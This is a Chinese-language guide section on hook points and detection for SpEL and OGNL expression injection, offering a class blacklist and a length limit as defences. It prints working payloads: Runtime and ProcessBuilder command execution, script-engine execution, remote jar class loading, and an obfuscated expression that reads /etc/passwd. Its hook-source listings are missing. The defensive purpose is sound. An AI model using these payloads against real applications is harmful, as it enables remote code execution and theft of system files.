



## 10.4 Hook点与检测算法

### 10.4.1 Hook点的选择

对于SPEL表达式注入，选择类org.springframework.expression.common.TemplateAwareExpressionParser
的`parseExpression`方法，该方法的源码如下：



对于OGNL表达式注入，选择类ognl.OgnlParser的`topLevelExpression`方法，该方法的源码如下：



### 10.4.2 表达式注入与检测算法

由于OGNL与SPEL表达式除了Hook方法不一样，检测算法几乎一样，这里以SPEL表达式的检测算法为例子说明。

+ 黑名单检测

先来看下常见的具备攻击能力的表达式写法：

```java
// 使用java.lang.ProcessBuilder执行命令
new java.lang.ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()
// 使用ProcessBuilder执行命令
new ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()        
// 使用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 使用Runtime执行命令
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
// nashorn 引擎
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// javascript 引擎
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// 类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333")        
// 反射 java.lang.Runtime
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")
// 反射 java.lang.ProcessBuilder
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open","/System/Applications/Calculator.app"}).start()
```

检测表达式中是否存在指定的类，这些类能够执行命令、脚本或者读取文件等，如下所示：
```java
System
Runtime
ProcessBuilder
java.lang.Runtime
java.lang.ProcessBuilder
javax.script.ScriptEngineManager
java.lang.System
org.springframework.cglib.core.ReflectUtils
java.io.File
java.net.URL        
javax.management.remote.rmi.RMIConnector
// ....
```

+ 最大长度限制

上面列的攻击方式还有其他的变种，如果仅限上面的黑名单类，很容易被绕过。
某个命令执行回显的POC如下，显然其长度超过了正常表达式的长度。一般应用的表达式不会太长，因此可以对表达式的长度做一个限制。
如SPEL表达式字符串的长度一般在30～200，超过了最大的长度可以记录日志，方便离线分析。
```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character)
        .toString(99)
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(32))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(101))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(99))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(112))
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(119))
        .concat(T(java.lang.Character).toString(100)))
        .getInputStream())
```

下图为SPEL表达式的常用检测算法，黑名单算法的优先级高于长度限制算法。
 

参考：https://xz.aliyun.com/t/9245?time__1311=n4%2BxuDgD9DyDRGCDCD0DBMb7evwoa4ECDfrD&alichlgref=https%3A%2F%2Fbaidu.com%2F